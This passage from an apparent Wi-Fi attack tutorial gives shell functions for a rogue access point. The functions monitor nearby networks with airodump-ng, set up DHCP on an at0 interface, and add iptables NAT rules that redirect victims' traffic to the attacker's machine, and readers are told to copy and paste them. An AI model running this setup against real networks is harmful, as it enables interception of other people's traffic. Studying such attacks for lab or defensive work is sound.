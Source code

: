 Once we place the WiFi adapter in monitor mode, we will need to see what the BSSID (MAC Address) and ESSID (SSID) of everything in the air.

{% highlight ruby %}
function dump ()
{
sudo airodump-ng $atp;
}
{% endhighlight %}

Now we need to create a new adapter to tunnel out traffic to and we need to include a series of firewall rules to redirect our traffic. Explaining these rules will require an entire tutorial series on their own. For now, just copy and paste them

Note: The environment variable will not pass in the destination argument.

{% highlight ruby %}
function route ()
{
#sudo ifconfig $wifi txpower $wpower;
#WARNING! The above line is commented out. It increases the power hence signal strength I have not tested this in a virtual machine because I do not know the risk. You should not either!!
#I am not liable if you decide to go above the legal limit.

sudo cp /etc/dhcp/dhcpd.et.conf /etc/dhcp/dhcpd.conf;
sudo ifconfig at0 up;
sudo ifconfig at0 192.168.2.1 netmask 255.255.255.0;
sudo dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhcpd.pid at0;
#sudo systemctl restart isc-dhcp-server;

sudo iptables --table nat --append POSTROUTING --out-interface $adp -j MASQUERADE;

sudo iptables --append FORWARD --in-interface at0 -j ACCEPT;

sudo iptables -t nat -A PREROUTING -p tcp --dport $lport -j DNAT --to-destination $myIP:$lport;

sudo iptables -t nat -A POSTROUTING -j MASQUERADE;
}
{% endhighlight %}

Add the option to erase the iptables firewall rules when complete.

{% highlight ruby %}
function iptables_flush ()
{
# flush all chains
sudo iptables -F;
sudo iptables -t nat -F;
sudo iptables -t mangle -F;
# delete all chains
sudo iptables -X;
}
{% endhighlight %}

